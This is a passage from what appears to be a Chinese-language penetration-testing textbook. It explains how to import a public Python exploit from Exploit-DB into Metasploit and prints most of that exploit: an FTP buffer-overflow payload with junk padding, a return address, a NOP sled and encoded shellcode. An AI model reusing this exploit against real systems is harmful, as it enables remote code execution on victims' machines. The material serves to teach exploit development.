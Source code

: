 ![](img/00071.jpeg)

客户端利用很有趣。然而，这很难进行，因为我们需要受害者的行动和帮助来执行文件、访问链接或安装 APK。但是，在不可能进行直接攻击的情况下，客户端攻击是最有用的。

# 将漏洞转化为 Metasploit

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入 Metasploit。可从[下载公开可用的漏洞 https://www.exploit-db.com/exploits/31255/](https://www.exploit-db.com/exploits/31255/) 。让我们按如下方式分析该漏洞：

```
import socket as s
from sys import argv
host = "127.0.0.1"
fuser = "anonymous"
fpass = "anonymous"
junk = '\x41' * 2008
espaddress = '\x72\x93\xab\x71'
nops = '\x90' * 10
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1" "\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e" "\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23" "\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d" "\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5" "\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07" "\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c" "\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13" "\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3" "\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74" "\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0" "\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63" "\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29" "\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14" "\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02" "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
```